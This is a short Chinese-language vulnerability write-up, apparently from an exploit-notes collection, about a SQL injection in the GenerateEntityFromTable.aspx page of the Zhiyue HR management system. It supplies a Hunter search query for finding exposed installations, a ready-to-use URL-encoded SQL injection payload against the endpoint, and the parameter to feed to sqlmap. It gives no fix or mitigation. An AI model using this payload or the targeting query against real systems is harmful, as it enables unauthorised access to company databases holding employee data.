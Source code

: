 # 智跃人力资源管理系统 GenerateEntityFromTable.aspx SQL注入漏洞

# 一、漏洞简介
智跃人力资源管理系统是基于B/S网页端广域网平台，一套考勤系统即可对全国各地多个分公司进行统一管控，成本更低。信息共享更快。跨平台，跨电子设备。智跃人力资源管理系统 GenerateEntityFromTable.aspx SQL注入漏洞，攻击者可通过该漏洞获取数据库权限。

# 二、影响版本
+ 智跃人力资源管理系统

# 三、资产测绘
+ hunter`web.body="ZY.LOGO.64.png"`
+ 特征

![1700999921759-eb1f0195-0120-4c54-8bc9-5818fb075b7e.png](./img/94IJ8Ml0P1Ag0IDx/1700999921759-eb1f0195-0120-4c54-8bc9-5818fb075b7e-497556.png)

# 四、漏洞复现
```plain
/resource/utils/GenerateEntityFromTable.aspx?t=1%27%2B(SELECT%20CHAR(103)%2BCHAR(87)%2BCHAR(114)%2BCHAR(112)%20WHERE%201669%3D1669%20AND%206492%20IN%20(select%20SUBSTRING(sys.fn_sqlvarbasetostr(HASHBYTES(%27MD5%27,%271230%27)),3,32)))%2B%27
```

![1700999949055-76cc2f2c-0826-473c-943e-676e36dc5e33.png](./img/94IJ8Ml0P1Ag0IDx/1700999949055-76cc2f2c-0826-473c-943e-676e36dc5e33-974501.png)

sqlmap

```plain
/resource/utils/GenerateEntityFromTable.aspx?t=1
```

![1701000199428-d43731eb-8092-4b6d-9abc-9a57e4a8f9ae.png](./img/94IJ8Ml0P1Ag0IDx/1701000199428-d43731eb-8092-4b6d-9abc-9a57e4a8f9ae-184237.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zwvy0quhfwnddcae>